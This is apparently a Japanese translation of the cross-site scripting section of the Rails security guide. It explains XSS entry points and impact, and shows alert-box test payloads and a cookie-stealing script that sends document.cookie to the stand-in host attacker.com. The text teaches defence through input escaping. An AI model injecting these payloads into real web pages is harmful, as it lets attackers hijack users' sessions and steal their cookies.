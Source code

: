 
### クロスサイトスクリプティング（XSS）

INFO: _Webアプリケーションにおける最も広まっているセキュリティ脆弱性の1つであり、最も破壊的なものの1つがXSSです。この悪意のある攻撃はクライアントサイドで実行可能なコードを注入します。Railsはこれらの攻撃を防ぐためのヘルパーメソッドを提供しています。_

#### エントリーポイント

エントリーポイントとは、攻撃者が攻撃を開始できる脆弱なURLとそのパラメータのことです。

最も一般的なエントリーポイントは、メッセージ投稿、ユーザーコメント、ゲストブックですが、プロジェクトのタイトル、ドキュメント名、検索結果ページなど、ユーザーがデータを入力できる場所ならどこでも脆弱性が存在します。ただし、入力はウェブサイトの入力ボックスからのみではなく、明示的なもの、隠れたもの、内部のものである必要はありません。ユーザーはトラフィックを傍受できる可能性があります。アプリケーションやクライアントサイドのプロキシを使用すると、リクエストを変更することが容易になります。また、バナー広告などの他の攻撃ベクトルもあります。

XSS攻撃は次のように機能します：攻撃者がいくつかのコードを注入し、ウェブアプリケーションがそれを保存してページに表示し、後で被害者に提示します。ほとんどのXSSの例では、単純にアラートボックスが表示されますが、それ以上の機能があります。XSSはクッキーを盗み、セッションを乗っ取り、被害者を偽のウェブサイトにリダイレクトし、攻撃者の利益のために広告を表示し、機密情報を取得するためにウェブサイトの要素を変更したり、ウェブブラウザのセキュリティホールを介して悪意のあるソフトウェアをインストールすることができます。

2007年後半、Mozillaブラウザで88の脆弱性が報告され、Safariで22、IEで18、Operaで12が報告されました。Symantec Global Internet Security threat reportによれば、2007年下半期には239のブラウザプラグインの脆弱性が文書化されています。[Mpack](https://www.pandasecurity.com/en/mediacenter/malware/mpack-uncovered/)は非常に活発で最新の攻撃フレームワークであり、これらの脆弱性を悪用します。犯罪的なハッカーにとって、ウェブアプリケーションフレームワークのSQLインジェクションの脆弱性を悪用し、テキストのテーブル列に悪意のあるコードを挿入することは非常に魅力的です。2008年4月、51万以上のサイトがこのようにハッキングされました。その中にはイギリス政府、国連などの高プロファイルなターゲットも含まれています。
#### HTML/JavaScriptのインジェクション

最も一般的なXSS言語は、もちろん最も人気のあるクライアントサイドスクリプト言語であるJavaScriptです。HTMLと組み合わせて使用されることが多いです。ユーザーの入力をエスケープすることは重要です。

以下はXSSをチェックするための最も簡単なテストです。

```html
<script>alert('Hello');</script>
```

このJavaScriptコードは単純にアラートボックスを表示します。次の例は、非常に一般的でない場所で同じことを行います。

```html
<img src="javascript:alert('Hello')">
<table background="javascript:alert('Hello')">
```

##### クッキーの盗難

これまでの例では何の害もありませんでしたので、次に攻撃者がユーザーのクッキー（およびユーザーのセッションを乗っ取る）方法を見てみましょう。JavaScriptでは、`document.cookie`プロパティを使用してドキュメントのクッキーを読み取りおよび書き込みすることができます。JavaScriptは同一生成元ポリシーを強制するため、1つのドメインのスクリプトは他のドメインのクッキーにアクセスすることはできません。`document.cookie`プロパティは、元のWebサーバーのクッキーを保持します。ただし、このプロパティを直接HTMLドキュメントに埋め込む（XSSで行われるように）場合には、このプロパティを読み取りおよび書き込みすることができます。自分のウェブアプリケーションのどこにでもこれを埋め込んで、結果ページで自分のクッキーを表示してみてください。

```html
<script>document.write(document.cookie);</script>
```

攻撃者にとっては、これは役に立ちません。なぜなら、被害者は自分自身のクッキーを見ることになるからです。次の例では、URL http://www.attacker.com/ にクッキーを追加して画像を読み込もうとします。もちろん、このURLは存在しないため、ブラウザは何も表示しません。しかし、攻撃者は自分のウェブサーバーのアクセスログファイルを確認して被害者のクッキーを見ることができます。

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

